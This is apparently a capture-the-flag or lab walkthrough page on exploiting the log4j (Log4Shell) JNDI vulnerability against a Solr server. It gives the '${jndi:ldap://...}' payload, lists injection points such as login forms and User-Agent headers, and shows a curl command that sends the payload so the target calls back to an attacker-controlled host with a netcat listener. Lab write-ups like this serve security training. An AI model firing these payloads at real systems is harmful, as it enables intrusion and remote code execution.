 Some examples of this syntax are:

* **`${sys:os.name}`**
* **`${sys:user.name}`**
* **`${log4j:configParentLocation}`**
* **`${ENV:PATH}`**
* **`${ENV:HOSTNAME}`**
* **`${java:version}`**

We already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so: **`${jndi:ldap://ATTACKERCONTROLLEDHOST}`**

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack.&#x20;

Notice the **`ldap://`** schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For the sake of brevity, we will not need to cover all the ins-and-outs and details of LDAP here, but know that this is something we will need to work with as we refine our attack.

We can simply supply HTTP GET variables or parameters which will be processed and parsed by log4j.&#x20;

Other locations you might supply this JNDI syntax:

* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as **`User-Agent`**, **`X-Forwarded-For`**, or other customizable headers
* **Any place for user-supplied data**

For now we are going to start up a netcat listner

![](<../../../.gitbook/assets/image (25) (1).png>)

Then run this curl command

```bash
curl 'http://10.10.158.27:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.20.17:9001\}'
```

![](<../../../.gitbook/assets/image (6) (1).png>)
